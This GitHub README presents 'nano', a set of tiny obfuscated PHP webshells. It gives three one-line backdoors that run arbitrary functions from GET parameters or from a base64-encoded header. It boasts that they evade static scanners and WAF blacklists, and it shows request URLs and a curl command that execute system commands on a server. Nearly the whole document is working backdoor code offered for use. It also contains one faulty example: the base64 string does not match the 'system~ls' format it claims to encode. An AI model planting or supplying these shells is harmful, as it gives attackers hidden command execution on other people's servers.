 # nano
Nano is a family of PHP webshells which are code golfed to be extremely stealthy and efficient.\
Put it on watch maybe, I will continue to upload more webshells in here.

**Note:** You may need to tweak some parts of the code if it doesn't work out for your.\
For example, if short tags are disabled, you will need to replace <? with <?php.

### Nano
```php
<?$x=$_GET;@$x[p]=='_'?@$x[f]($x[c]):1;
```
#### Features
- 39 bytes in size
- Can't be detected by static code scanners
- Supports authentication
- No warnings on this fork version!

#### Usage
`http://example.com/nano.php?f=function&c=command&p=password`

`f` is for function\
`c` is for command\
`p` is for password

For example, the code below will execute the `ls` command:

`http://example.com/nano.php?f=system&c=ls&p=password`

### Pico
```php
<?$x=$_GET;@$x[f]($x[c]);
```
#### Features
- 25 bytes in size
- Can't be detected by static code scanners
- No warnings on server logs!

#### Usage
`http://example.com/nano.php?f=function&c=command`

`f` is for function\
`c` is for command

For example, the code below will execute the `ls` command:

`http://example.com/nano.php?f=system&c=ls`

### Ninja
```php
<?$x=explode('~',strrev('edoced_46esab')(getallheaders()['x']));@$x[0]($x[1]);
```
#### Features
- 93 bytes in size
- Fully Undetectable

#### Notes
- The version that calls `base64_decode` directly isnt great because its blacklisted on many wafs\
So i changed that for a reverse call to create the base64 decode call or rot13.\
- The substract string call was removed because it wasnt adding any special obfucation on the base64.

#### Usage
This one a bit complex.\
Lets say you want to run `system(ls)` so write it as `system~ls` and then base64 encode it i.e. `c3lzdGVtKGxzKQ==`\
Now open your terminal and type the following command\
`curl -H 'x: c3lzdGVtKGxzKQ==' http://example.com/backdoored.php`\
Too much work? You can use the [handler](https://github.com/UltimateHackers/nano/blob/master/handler.py) instead.

![handler](https://i.imgur.com/hkAHGwH.png)

#### Everything Else
This is my first php thingy so if there's way to do what I did in a better way please let me know or open a pull request.\
The nano project is licensed under **MIT license** which basically means you have to give me credit if you want to redistribute or modify it.

